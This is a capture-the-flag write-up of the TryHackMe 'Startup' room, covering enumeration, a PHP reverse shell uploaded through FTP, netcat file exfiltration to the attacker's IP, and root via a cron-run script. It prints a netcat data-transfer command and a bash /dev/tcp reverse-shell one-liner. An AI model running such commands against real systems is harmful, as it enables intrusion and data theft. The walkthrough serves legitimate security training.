 ```yaml
---
title: "Startup TryHackMe"
date: "08-08-2021"
author: "Reda BELHAJ"
summary: "We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Created by elbee"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Startup/dndjk3g.jpg"
---
```

Let’s take a look at the [Startup CTF](https://tryhackme.com/room/startup) on TryHackMe.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.172.186
```
![Nmap](/images/Startup/nmap.jpg)

The “Nmap Output” displayed `3` services running under ports 21, 22 and 80.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/Startup/gobuster.jpg)

## Exploiting
Let's take a closer look at the /files directory:
![Files](/images/Startup/files.jpg)

In the `/files` we found a directory and two files: a text file and an image. The same files found on in the the FTP server:
![FTP](/images/Startup/ftp.jpg)

So Now I decided to put a reverse shell file inside the ftp directory to access the machine, With the use of [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) I changed the ip address and the port:
![Payload](/images/Startup/payload.jpg)

And I started a netcat listener on the local machine before clicking the php-reverse-shell.php:

```
nc -nlvp 4444
```

And we found the special `recipe.txt`
## User Flag
Also I found an uncommon directory `/incidents` with a .pcapng file and with this method I download the file:

- In the local machine:

```
nc -lvp 1234 > suspicious.pcapng
```

- In the victim machine:

```
nc 10.8.174.180 1234 < suspicious.pcapng
```
Then I analyzed the packets and I found:
![Pcap](/images/Startup/wireshark.jpg)

With The credentials that I've found I tried to swith into user `lennie`:

```
su lennie
```

```
THM{***********************************}
```
## Root Flag
In the home directory I searched inside the scripts dir an I've found two scripts one have :
![Planner](/images/Startup/planner.jpg)

And the script called another file that is execute: `/etc/print.sh`, The file also is owned by user lennie So I want to create a reverse shell using [GTFObins](https://gtfobins.github.io/gtfobins/bash/#reverse-shell) and I add this to the script:

```
bash -c 'exec bash -i &>/dev/tcp/10.8.174.180/4444 <&1'
```

Bingo I'm now a root:

```
THM{***********************************}
```
